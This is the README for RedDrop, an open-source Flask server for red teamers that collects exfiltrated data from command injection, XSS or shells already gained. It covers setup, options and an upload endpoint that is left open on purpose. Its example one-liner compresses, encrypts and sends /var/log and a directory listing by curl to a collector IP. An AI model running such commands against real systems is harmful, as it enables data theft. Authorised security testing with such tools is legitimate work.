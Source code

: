 ![Red Drop](docs/RedDrop.png)
# RedDrop Exfil Server
[Check out the accompanying MaverisLabs Blog Post Here!](https://medium.com/maverislabs/data-exfiltration-using-reddrop-13bcbad7acb0?source=friends_link&sk=34320be3746773a82d065d03ea05111b)

RedDrop Exfil Server is a Python Flask Web Server for Penetration Testers, Red Teamers, and Security Professionals which features:
- [File Upload](docs/FileUpload.md)
- [Automatic Payload Processing](docs/PayloadProcessing.md)
- [Automatic Archive Extraction](docs/ArchiveExtraction.md)
- [JSON Logging](docs/JSONLogging.md)
- [Configurable Options](docs/Configurations.md)
- [Authorization Rules](docs/AuthorizationRules.md)

This software is intended to be used as an a rudementary C2 endpoint for capturing web request data in various scenarios. Some examples may include:
- A blind command injection vulnerability
- An XSS attack where a quick and dynamic web request logging server is needed
- A situation where remote shell access has been obtained and a verbose-logging web-based exfiltration server is desired


## Demo
[![Demo](https://img.youtube.com/vi/x9KmGCfyyZ0/0.jpg)](https://www.youtube.com/watch?v=x9KmGCfyyZ0)
---

**This project is still in development and some features may be buggy. If you run into problems, please open an Issue!**

### A note on security
This software should not be left generally accessible to the broader Internet. It is built with what some might consider an Arbitrary File Upload vulnerability by intention, and will accept and save files to the local disk without authentication. Due diligence should be taken to ensure that the system this software is deployed to is secured properly. A few recommendations:
- Utilize the [Authorization Rules](docs/AuthorizationRules.md) feature of RedDrop to drop requests which do not meet your criteria. 
- Place a Reverse Proxy to route and block traffic to this web application
- Whitelist your target's IP space
- Don't auto extract archives without understanding my filtering method

## Quick Start
### Docker
```bash
mkdir uploads logs
docker run -t -v "$PWD/uploads:/reddrop/uploads" -v "$PWD/logs:/reddrop/logs" -p "80:80" -n reddrop cyberbutler/reddrop-exfil-server -h
```
### PipEnv
```bash
pip install --user pipenv
pipenv install
pipenv shell
python reddrop-server.py -h
```

### Options
```bash
python reddrop-server.py -h

     A Webserver for File and Data Exfiltration.
        Author: @cyberbutler/@thecyberbutler

optional arguments:
  -h, --help            show this help message and exit
  --host HOST, -H HOST  The host IP Address to bind to (default:
                        0.0.0.0)
  --port PORT, -P PORT  The port to bind to (default: 80)
  -c CONFIG, --config CONFIG
                        YAML config file path (default: None)
  --dump-config         Dump the configuration settings as YAML
                        (default: False)
  --debug               Enable Flask's Debug Mode (default: False)
  -p {hex,openssl-aes256-pbkdf2,gzip,b64}, --processor {hex,openssl-aes256-pbkdf2,gzip,b64}
                        Specify a processor to use. This flag can
                        be used more than once to define multiple
                        process_list functions. Use this flag in
                        the order in which you wish to process
                        received data (default: [])
  -A, --auto-process, --no-auto-process
                        Automatically run processors based on
                        detected data. This option is enabled by
                        default, but should be disabled (--no-
                        auto-process) when you receive output you
                        don't expect. Such as in the case of
                        Base64 decoding being run on output that
                        is not Base64 encoded. Instead, force the
                        process with the `-p` flag. (default:
                        True)
  --auto-extract-tar, -x
                        Auto extract TAR archives received by the
                        server. (default: False)
  --encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD
                        The password used to decrypt/encrypt.
                        (default: EncryptMe)
  -r AUTHORIZATION_RULES, --authorization_rules AUTHORIZATION_RULES
                        Specify an Authorization Rule to deny
                        requests which do not match the provided
                        Key and Regex value pair. Specified as
                        <Key>=<Regex>. (default: None)
  -t TAGS, --tag TAGS   Tag data received during this session in the logs as well as the directory files are uploaded to. Example:
                        -t log4j -t acme.org (default: None)
  --tls-keyfile GUNICORN.KEYFILE
                        Enables TLS Support. (Production Only) The path to a TLS key file (default: None)
  --tls-certfile GUNICORN.CERTFILE
                        Enables TLS Support. (Production Only) The path to a TLS cert file (default: None)

Far more configuration options exist which must be specified in Environment Variables, use `--dump-config` to see all of the options

```

### Examples
#### Exfiltrating a Tar archive and command output from a Linux system
```bash
tar cz /var/log | base64 | xxd -ps | gzip | openssl enc -aes-256-cbc -pass 'pass:EncryptMe' -e -a -pbkdf2 | curl 172.17.0.1$PWD -F 'logs=@-' -F "listing=`ls -al * | gzip | base64`"
```

![example-screenshot.png](docs/example-screenshot.png)

## Todo
- [ ] Greater documentation of techniques using this web server
- [ ] Chunked File Upload handling and example commands
- [ ] More Processing modules
- [ ] Expand archive extraction functionality
